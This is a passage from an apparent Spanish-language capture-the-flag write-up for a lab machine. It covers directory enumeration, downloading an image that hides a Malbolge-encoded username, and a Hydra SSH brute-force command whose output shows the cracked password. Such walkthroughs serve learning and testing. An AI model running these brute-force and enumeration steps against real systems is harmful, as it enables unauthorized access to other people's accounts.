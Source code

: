 ```
/index.html           (Status: 200) [Size: 10701]
/cat.jpg              (Status: 200) [Size: 35137]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 13]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que si probamos con dichas extensiones enseguida vamos a ver algo bastante interesante llamado `cat.jpg`, vamos a ver que contiene por lo que nos lo vamos a descargar.

```shell
curl -O http://<IP>/cat.jpg
```

Si leemos la imagen a lo ultimo del contenido veremos esto que no parece que sea de la imagen, parece que sea algo puesto a mano.

```
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

Vamos a probar a decodificarlo a ver que vemos, en este caso esta codificado en un lenguaje de programacion muy antiguo y muy poco utilizado el cual hasta el que lo creo decidio hacerlo con la intencion de que fuera imposible practicamente programarlo o entenderlo, es el llamado `Malbolge` y despues de buscar un rato encontre esta pagina que te lo decodifica.

URL = [Decode Interpreter Malbolge](https://malbolge.doleczek.pl/)

> Codigo decodificado

```
missyred
```

Vemos que nos da un usuario por lo que vamos a probar a tirarle `fuerza bruta` a ver que encontramos.

### Hydra

```shell
hydra -l missyred -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-24 03:44:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.28:22/
[22][ssh] host: 192.168.5.28   login: missyred   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```